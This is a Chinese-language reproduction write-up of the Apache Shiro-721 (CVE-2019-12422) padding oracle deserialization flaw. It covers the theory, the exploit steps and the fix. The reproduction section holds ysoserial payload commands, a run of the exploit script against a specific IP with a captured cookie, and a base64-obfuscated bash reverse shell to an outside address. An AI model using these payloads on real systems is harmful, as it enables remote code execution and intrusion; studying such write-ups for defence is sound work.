



## CVE-2019-12422shiro-721Oracle填充攻击

Apache Shiro before 1.4.2, when using the default "remember me" configuration, cookies could be susceptible to a padding attack.

Apache Shiro <= 1.4.1，需要一个合法的登录账号，使用已登录用户的cookie基于Padding Oracle attack来实现的攻击

### 漏洞原理

**Apapche Shiro RememberMe Cookie 默认通过 `AES-128-CBC` 模式加密 , 这种加密模式容易受到 Padding Oracle Attack( Oracle 填充攻击 ) , 攻击者可以使用有效的 RememberMe Cookie 作为 Paddding Oracle Attack 的前缀 , 然后精心构造 RememberMe Cookie 值来实现反序列化漏洞攻击.**

漏洞复现步骤 :

1. **登录网站并且获取 RememberMe Cookie 值**
2. **使用 RememberMe Cookie 值来作为 Padding Oracle Attack 的前缀**
3. **通过 Padding Oracle Attack 的攻击方式精心构造可利用的 YSoSerial 反序列化数据**
4. **将构造好的反序列化数据填充到 RememberMe Cookie 字段中并发送 , 即可在目标服务器上执行任意代码.**

和shiro550一样，都是生成恶意RememberMe Cookie反序列化执行代码，不同之处是恶意RememberMe Cookie生成方式。shiro550反序列化利用需要知道AES加密的key，使用这个key直接构造payload；而shiro721需要一个已登录用户的合法RememberMe Cookie 值，运用此值通过数学原理构造payload。在密码学课程上学习过，已知密文和加密方法，去破解明文或者是修改密文都是可行的。对于AES这种著名的对称加密方法进行攻击研究并不少见。shiro721就是从密码学角度的一次攻击。

关于**AES-128-CBC 加密模式**和Padding Oracle Attack原理的更多介绍 https://www.guildhab.top/2020/11/cve-2019-12422-shiro721-apache-shiro-rememberme-padding-oracle-1-4-1-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-%E5%88%86%E6%9E%90-%E4%B8%8A/

Shiro的加密方式为`AES/128/CBC`，这个CBC加密方式存在一个 **Padding Oracle Attack( 填充 Oracle 攻击 )**，可以通过爆破获取到所有的明文值，获取了所有密文对应的明文后再通过**CBC Byte-Flipping Attack ( CBC字节翻转攻击 )** 改变密文加入恶意序列化数据，从而使shiro服务器AES解密后的明文中带有恶意序列化数据。

### 漏洞复现

[exp地址](https://github.com/inspiringz/Shiro-721/blob/master/exp/shiro_exp.py)

使用已有用户登录，得到RememberMe cookie

使用ysoserial和py脚本生成payload

~~~
java -jar ysoserial-master-SNAPSHOT.jar URLDNS "http://3onlyr.dnslog.cn" >poc.ser
~~~

~~~
python shiro721.py "http://101.43.138.109:60815/login.jsp" "4o6OTpxPyguGeYdcDVj+AKaFiUQPU5yVkfbx/eRCD4jhSobfQt+Itp3mBEMGLAtc8Jpr+6PxZGhpYgCqBIzBpU3X8okeD6Q1mGOY2Fn5GdazqyepSTcUQ02eYPkUFtYYCLqZEMbCv+59aKmlbSkVxOGOH9z5gdC0DsIY01woLIaGcHHpm941ZE13VyVU9JzbllmlIaSVVGgWWu3guAzY89dPMA0WD2QOayrRC6BhEj86G0i6/6kr/3mjSmzOSCg13O5ShUnm7lo03Orxr5D/Ev/ACTUbOG7lb/t0ncqMj1QmUFiHPyrITzZ7VsX3R7ney2Q098FvGBAQFESSQB5FEvGq3Plr1Fx46eHJCpjuqP8LaUQFZ2kKipEmbZ0KXR7RU8SR42NFIODCgMHzxqvwqjfOuzTRnfPNPy2B5/wAgAGmFthB0/RLA+7BxvkOdRDwvqniIsxtlPmnbtDlbyBo6JlucgE5kA5gLcVFNqi93bEXOoIOkNNmD5JV/LTcSbnM" poc.ser 
~~~

整个过程类似于sql注入的盲注，需要一定的时间

得到payload，将rememberMe替换，注意这里要删除JSESSIONID，否则服务器不会进行反序列化操作。命令执行成功。

脚本的执行时间和命令长度有关，接下来尝试反弹shell命令。

~~~
java -jar ysoserial-master-SNAPSHOT.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTM4LjEwOS8xNzcwIDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
~~~

---

脚本运行了30分钟还没有出结果，看来想要利用shiro721并不容易，在实战中也很少有利用。

### 漏洞修复

升级到shiro1.4.2，Shiro1.4.2版本后，Shiro的加密模式由AES-CBC更换为 AES-GCM

